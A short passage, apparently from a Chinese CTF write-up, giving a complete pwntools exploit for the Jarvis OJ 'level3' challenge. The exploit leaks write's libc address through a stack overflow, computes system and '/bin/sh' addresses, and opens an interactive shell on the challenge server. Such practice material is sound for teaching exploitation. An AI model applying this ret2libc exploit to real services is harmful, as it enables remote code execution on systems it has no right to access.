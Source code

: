  最后的全量代码就是
```python
#coding=utf-8

from pwn import *

local = False


if local:
    conn = process("./level3")
    elf_libc = ELF("/lib/i386-linux-gnu/libc.so.6")

else:
    conn = remote("pwn2.jarvisoj.com", 9879)
    elf_libc = ELF("./libc-2.19.so")
    elf = ELF("./level3")


#从进程文件中获取write函数的plt地址和got地址

# write_plt = elf.plt["write"]
# write_got = elf.got["write"]
#
# print(write_plt)
# print(write_got)

write_plt = 0x08048340
write_got = 0x0804a018
addr_func = 0x0804844B

system_offset = 0x00040310
write_offset = 0x000DAFE0
sh_offset = 0x0016084C

payload1 = 'a' * (0x88+0x4) + p32(write_plt) + p32(addr_func) + p32(1)+p32(write_got)+p32(4)  #溢出地址+返回地址+参数

conn.recvuntil("Input:\n")
conn.sendline(payload1)
writeaddr = u32(conn.recv(4))

system_addr = writeaddr - write_offset + system_offset
sh_addr = writeaddr - write_offset + sh_offset

payload = "a"*(0x88+0x4)+p32(system_addr)+p32(0x4)+p32(sh_addr)
conn.send(payload)
conn.interactive()
```
